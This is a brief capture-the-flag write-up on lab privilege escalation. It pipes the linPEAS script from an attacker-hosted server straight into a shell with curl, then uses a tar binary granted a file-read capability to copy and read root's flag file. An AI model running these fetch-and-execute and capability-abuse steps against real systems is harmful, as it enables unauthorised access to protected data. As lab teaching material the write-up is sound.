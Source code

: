 [< Back](../../README.md)

Now that we have access to the machine, we can try to look around.

We don't have the user password so no `sudo -l` for us. I will now use linPEASS to try to find a vulnerability.

Using one of the basic examples they give, we set up a local server and execute the script on the machine.

```sh
sudo python -m SimpleHTTPServer 80 # Host
curl [IP]/linpeas.sh | sh          # Victim
```
After looking in details at the output, and testing about ten potential CVE's, I found something interesing with file capabilities.
```
Files with capabilities (limited to 50):
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```

So the program /bin/tar has the capability of reading files, we might be able to exploit this in our favor, let's try to make a tar ball out of /root/root.txt

```sh
❯ tar -cf /tmp/root.tar /root/root.txt
❯ tar xf root.tar
❯ cat root/root.txt
```

And we get the flag
